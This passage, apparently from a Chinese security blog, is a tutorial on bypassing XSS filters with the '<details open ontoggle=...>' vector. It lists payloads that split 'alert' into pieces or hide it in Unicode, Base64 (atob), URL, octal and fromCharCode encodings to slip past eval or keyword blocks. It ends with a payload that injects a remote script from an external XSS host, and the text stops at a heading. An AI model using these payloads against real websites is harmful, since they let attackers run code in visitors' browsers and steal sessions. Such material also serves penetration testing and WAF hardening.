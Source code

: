 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019a275ef352d7e157.png)

如果我说一定要用alert的话就要用到接字符串了。

&lt;details open ontoggle=top[‘al’%2b’ert’](1)&gt; %2b为url编码的+

[![](https://p2.ssl.qhimg.com/t0146c119c2f782b9f5.png)](https://p2.ssl.qhimg.com/t0146c119c2f782b9f5.png)

eval函数执行

&lt;details open ontoggle=top.eval(‘ale’%2B’rt(1)’) &gt;

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010103c68c291a2b80.png)

eval直接用也可以弹

&lt;details open ontoggle=eval(‘alert(1)’) &gt;

[![](https://p5.ssl.qhimg.com/t01d86157e3c832beda.png)](https://p5.ssl.qhimg.com/t01d86157e3c832beda.png)

这里为什么说到eval呢？因为如果eavl不拦截的话，我们可以测试各种编码，当然这是在牺牲长度的前提下。

例如： Unicode编码

&lt;details open ontoggle=eval(‘\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029’) &gt;

[![](https://p4.ssl.qhimg.com/t01634484725d179ce2.png)](https://p4.ssl.qhimg.com/t01634484725d179ce2.png)

其他：

Base64编码：<br>
&lt;details open ontoggle=eval(atob(‘YWxlcnQoMSk=’)) &gt;<br>
eval拦截的话，可以试试，把 e Unicode编码<br>
&lt;details open ontoggle=\u0065val(atob(‘YWxlcnQoMSk=’)) &gt;<br>
url编码：<br>
&lt;details open ontoggle=%65%76%61%6c(atob(‘YWxlcnQoMSk=’)) &gt;<br>
url编码：<br>
&lt;details open ontoggle=eval(‘%61%6c%65%72%74%28%31%29’) &gt;<br>
JS8编码：<br>
&lt;details open ontoggle=eval(‘\141\154\145\162\164\50\61\51’) &gt;<br>
Ascii码绕过：<br>
&lt;details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) &gt;<br>
其他自测

引用外部url，运用基于DOM的方法创建和插入节点把外部JS文件注入到网页。

&lt;details open ontoggle=eval(“appendChild(createElement(‘script’)).src=’http://xss.tf/eeW'”) &gt;

[![](https://p5.ssl.qhimg.com/t01cb1b400124573a02.png)](https://p5.ssl.qhimg.com/t01cb1b400124573a02.png)

url编码
